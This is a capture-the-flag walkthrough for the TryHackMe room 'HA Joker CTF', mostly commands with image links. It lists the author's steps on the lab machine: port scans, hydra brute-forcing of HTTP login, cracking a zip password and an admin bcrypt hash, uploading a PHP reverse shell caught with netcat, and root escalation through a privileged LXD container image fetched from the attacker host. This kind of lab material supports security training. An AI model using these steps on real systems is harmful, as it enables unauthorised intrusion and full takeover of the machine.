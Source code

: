 # HA Joker CTF

**Room Link:** [https://tryhackme.com/room/jokerctf](https://tryhackme.com/room/jokerctf)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (624).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>



## TCP/8080 - HTTP

**Kali**

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f $VICTIM http-get /
```

<figure><img src="../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>



wasn't finding it but should have found a backup.zip

**Kali**

```
nikto -id joker:hannah -h $VICTIM:8080
```

<figure><img src="../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
unzip backup.zip
Password: hannah
```

<figure><img src="../../.gitbook/assets/image (630).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cd db
cat joomladb.sql | grep admin
```

**Hash**

```
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

**Kali**

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: admin
Password: abcd1234
```

<figure><img src="../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (632).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```



**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI:81/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
